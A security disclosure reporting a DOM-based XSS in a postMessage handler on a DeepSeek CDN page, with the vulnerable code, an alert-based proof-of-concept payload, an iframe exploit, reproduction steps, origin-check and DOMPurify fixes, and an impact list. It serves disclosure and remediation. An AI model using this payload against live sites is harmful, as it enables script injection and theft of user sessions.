 ### **DOM-Based XSS Vulnerability Disclosure: DeepSeek.com**

#### **Summary**
During routine analysis, a DOM-based Cross-Site Scripting (XSS) vulnerability was identified on DeepSeek's CDN endpoint: `https://cdn.deepseek.com/usercontent/usercontent.html`. The vulnerability stems from improper handling of `postMessage` events, allowing an attacker to inject malicious scripts into the document context without proper origin validation or input sanitization.

---

#### **Affected URL**
`https://cdn.deepseek.com/usercontent/usercontent.html`

---

#### **Vulnerability Details**
The `postMessage` implementation on the affected endpoint processes messages without verifying their origin or properly sanitizing input. The following code snippet illustrates the root cause of the issue:

```javascript
window.addEventListener("message", (e) => {
    const keys = Object.keys(e.data);
    if (keys.length !== 1) return;
    if (!e.data.__deepseekCodeBlock) return;

    document.open();
    document.write(e.data.__deepseekCodeBlock);
    document.close();

    const style = document.createElement("style");
    style.textContent = "body { margin: 0; }";
    document.head.appendChild(style);
});
```

The function directly writes any `__deepseekCodeBlock` payload into the document using `document.write`, bypassing essential security measures such as:
- **Origin Validation**: No check to ensure the `postMessage` event originates from a trusted source.
- **Input Sanitization**: No filtering or escaping of HTML/JavaScript content in the payload.

---

#### **Proof of Concept (PoC)**

##### **Payload:**
The following `postMessage` payload can exploit the vulnerability to execute arbitrary JavaScript:
```javascript
postMessage(
    { __deepseekCodeBlock: '<script>alert(origin)</script>' },
    "*"
);
```

##### **Exploit Code:**
For easier testing, an iframe-based PoC was created to demonstrate the issue:
```html
<iframe
    width="600px"
    height="600px"
    src="https://cdn.deepseek.com/usercontent/usercontent.html"
    onload="this.contentWindow.postMessage( ({ __deepseekCodeBlock: '<script>alert(origin)</script>'}) ,'*')"
>
</iframe>
```

##### **Impact:**
When this payload is executed:
1. The browser processes the malicious payload.
2. An alert box is displayed showing the `origin`, confirming the ability to inject and execute arbitrary JavaScript.

---

#### **Steps to Reproduce**
1. Open `https://cdn.deepseek.com/usercontent/usercontent.html` in your browser.
2. Open the browser console and execute:
   ```javascript
   window.postMessage(
       { __deepseekCodeBlock: '<script>alert(origin)</script>' },
       "*"
   );
   ```
3. Alternatively, save and load the provided iframe-based exploit code in a browser.

---

#### Recommendations
1. **Validate Message Origin**: Ensure that the `postMessage` event's `origin` matches `https://cdn.deepseek.com`:
   ```javascript
   window.addEventListener("message", (e) => {
       if (e.origin !== "https://cdn.deepseek.com") return;

       // Handle the message securely
       const data = e.data;

       // Example: Sanitize and insert content
       if (data && data.__deepseekCodeBlock) {
           const sanitizedContent = DOMPurify.sanitize(data.__deepseekCodeBlock);
           const codeBlock = document.createElement("pre");
           codeBlock.textContent = sanitizedContent;
           document.body.appendChild(codeBlock);
       }
   });
   ```

2. **Sanitize User Input**: Use a library like **DOMPurify** to sanitize the HTML content before inserting it into the DOM. This helps prevent XSS attacks:
   ```javascript
   const sanitizedContent = DOMPurify.sanitize(e.data.__deepseekCodeBlock);
   ```

3. **Avoid `document.write`**: Replace `document.write` with modern DOM manipulation methods:
   ```javascript
   const codeBlock = document.createElement("pre");
   codeBlock.textContent = sanitizedContent;
   document.body.appendChild(codeBlock);
   ```

---

#### **Timeline**
- **Date of Discovery**: January 31, 2025, 7:45:00 PM CST (Central Standard Time)
- **Reported To DeepSeek**: [Pending Evalution]
- **Acknowledgment**: [N/A]
- **Patch Status**: [N/A]

---

#### **Impact Assessment**
This vulnerability allows attackers to execute arbitrary JavaScript in the context of `cdn.deepseek.com`. Potential impacts include:
- Theft of sensitive user data (e.g., cookies or session tokens).
- Defacement or injection of malicious content.
- Further exploitation of users accessing the compromised page.

